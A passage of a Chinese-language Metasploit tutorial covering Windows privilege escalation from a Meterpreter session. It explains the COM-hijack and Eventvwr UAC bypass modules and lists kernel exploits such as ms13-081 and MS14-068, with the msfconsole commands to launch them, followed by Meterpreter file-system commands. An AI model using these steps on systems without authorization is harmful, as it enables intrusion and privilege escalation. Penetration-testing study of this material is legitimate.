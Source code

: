 - **通过 COM 处理程序劫持**

    首先介绍一下这个 COM 处理程序劫持,此模块将通过在 hkcu 配置单元中创建 COM 处理程序注册表项来绕过 Windows UAC.当加载某些较高完整性级别进程时,会引用这些注册表项,从而导致进程加载用户控制的 DLL.这些 DLL 包含导致会话权限提升的 payload.此模块修改注册表项,但在调用 payload 后将清除该项.这个模块需要 payload 的体系架构和操作系统匹配,但是当前的低权限 meterpreter 会话体系架构中可能不同.如果指定 exe::custom,则应在单独的进程中启动 payload 后调用 ExitProcess().此模块通过目标上的 cmd.exe 调用目标二进制文件.因此,如果 cmd.exe 访问受到限制,此模块将无法正常运行.
    ```
    background
    use exploit/windows/local/bypassuac_comhijack
    set session 1
    Exploit
    ```

- **通过 Eventvwr 注册表项**

    首先介绍一下这个模块,此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动 Windows 事件查看器时调用的自定义命令来绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.此模块修改注册表项,但在调用 payload 后将清除该项.该模块不需要 payload 的体系架构和操作系统匹配.如果指定 EXE ::Custom,则应在单独的进程中启动 payload 后调用 ExitProcess().
    ```
    background
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

**利用系统漏洞提权**

除了这些模块还有其它的通过直接通过 incognito 中的 add_localgroup_user 提升、ms13-081、ms15-051、ms16-032、MS16-016、MS14-068、ms18_8120_win32k_privesc 域权限提升等其它的权限提升方法.
```bash
background
use exploit/windows/local/ms13_081_track_popup_menu # 以 ms13-081 为例
set session
Exploit

# 或

background
use post/windows/gather/enum_patches
set session
Exploit
```

### 文件操作

**操作文件系统**
```bash
ls:列出当前路径下的所有文件和文件夹.
pwd 或 getwd:查看当前路径
search:搜索文件,使用 search -h查看帮助.
cat:查看文件内容,比如 cat test.txt.
edit:编辑或者创建文件.和 Linux 系统的 vm 命令类似,同样适用于目标系统是 windows 的情况.
rm:删除文件.
cd:切换路径.
mkdir:创建文件夹.
rmdir:删除文件夹.
getlwd 或 lpwd:查看自己系统的当前路径.
lcd:切换自己当前系统的目录.
lls:显示自己当前系统的所有文件和文件夹.
```
